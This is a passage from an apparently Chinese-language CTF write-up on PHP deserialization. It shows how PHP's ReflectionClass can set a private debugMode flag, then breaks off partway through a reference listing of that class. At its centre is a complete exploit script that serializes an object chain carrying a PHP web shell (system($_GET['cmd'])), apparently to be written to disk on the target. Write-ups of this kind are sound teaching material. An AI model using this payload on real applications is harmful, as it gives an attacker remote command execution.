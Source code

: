 *   不能通过`$vuln->debugMode = true`直接修改
*   即使在类外部重新定义类，也无法绕过访问限制

这时候就需要**反射机制（Reflection）** 来突破限制：

    // 1. 获取VulnerableClass的反射类
    $ref = new ReflectionClass($vuln);
    
    // 2. 获取debugMode属性的反射对象
    $debugMode = $ref->getProperty('debugMode');
    
    // 3. 强制设置该属性可访问（突破private限制）
    $debugMode->setAccessible(true);
    
    // 4. 修改属性值为true
    $debugMode->setValue($vuln, true);
    

**强行将私有属性`debugMode`从`false`改为`true`**，这是整个 EXP 的核心突破点。

    <?php
    class FlagReader{
       private $logfile = "/tmp/log.txt";
       protected $content = "<?php system(\$_GET['cmd']); ?>";
    }
    class VulnerableClass {
       public $logger;
       private $debugMode = false;
    }
    $flag=new FlagReader();
    $vuln=new VulnerableClass();
    
    //1.获取反射类
    $ref=new ReflectionClass($vuln);
    //2.获取debugMode属性的反射对象
    $debugMode=$ref->getProperty('debugMode');
    //3.强制设置该属性可访问（突破private限制）
    $debugMode->setAccessible(true);
    //4.修改属性值为true
    $debugMode->setValue($vuln,true);
    
    $vuln->logger=$flag;
    
    echo base64_encode(serialize($vuln));
    
    

详细阐述
----

ReflectionClass反射类在PHP5新加入，继承自Reflector，它可以与已定义的类建立映射关系，通过反射类可以对类操作

    ReflectionClass implements Reflector {
    	/* 常量 */
    	const integer IS_IMPLICIT_ABSTRACT = 16 ;
    	const integer IS_EXPLICIT_ABSTRACT = 32 ;
    	const integer IS_FINAL = 64 ;
    	/* 属性 */
    	public $name ;
    	/* 方法 */
    	public __construct ( mixed $argument )
    	public static export ( mixed $argument [, bool $return = false ] ) : string
    	public getConstant ( string $name ) : mixed
    	public getConstants ( ) : array
    	public getConstructor ( ) : ReflectionMethod
    	public getDefaultProperties ( ) : array
    	public getDocComment ( ) : string
    	public getEndLine ( ) : int
    	public getExtension ( ) : ReflectionExtension
    	public getExtensionName ( ) : string
    	public getFileName ( ) : string